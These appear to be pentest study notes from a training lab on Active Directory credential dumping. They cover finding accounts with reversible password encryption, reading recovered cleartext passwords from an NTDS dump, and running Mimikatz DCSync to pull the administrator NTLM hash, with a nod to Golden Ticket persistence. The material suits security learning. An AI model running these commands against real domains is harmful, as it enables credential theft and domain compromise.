 ==[+] find NTLM hash and we crack them==
[+] ==find USER-4 CLEARTEXT Password  in  hashes.ntds.cleartext list== 
**hashes.ntds.cleartext** : If **reversible encryption** is enabled, AD stores passwords with RC4 and they can be decrypted using the Syskey. Tools like **secretsdump.py** will automatically recover these cleartext passwords during an NTDS dump or DCSync.

Viewing an Account with Reversible Encryption Password Storage Set:
![[Pasted image 20250818204943.png]]

**Enumerating User with reversible encryption is enabled**
```powershell
# using cmd
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
  #=> USER-4 : userAccountControl : 640 


# Checking for Reversible Encryption Option using Get-DomainUser
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
  # USER-4     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

 **Displaying the Decrypted Password:**
 ```bash
 cat inlanefreight_hashes.ntds.cleartext 
 # <USER-4>:CLEARTEXT:<Pass123@#>
```

##### with Mimikatz (out of scope)
Using Mimikatz, we must target a specific user. Here we will target the built-in administrator account. We could also target the `krbtgt` account and use this to create a `Golden Ticket` for persistence,
Mimikatz must be ran in the context of the user who has DCSync privileges.(we must login to the user-3 who have the DCSync)
```PowerShell
runas /netonly /user:<DOMAIN>\<USER-3> powershell
.\mimikatz.exe
privilege::debug
lsadump::dcsync /domain:<DOMAIN.LOCAL> /user:<DOMAIN>\administrator
  #=> Hash NTLM: 88ad09182de639ccc6579eb0849751cf
```


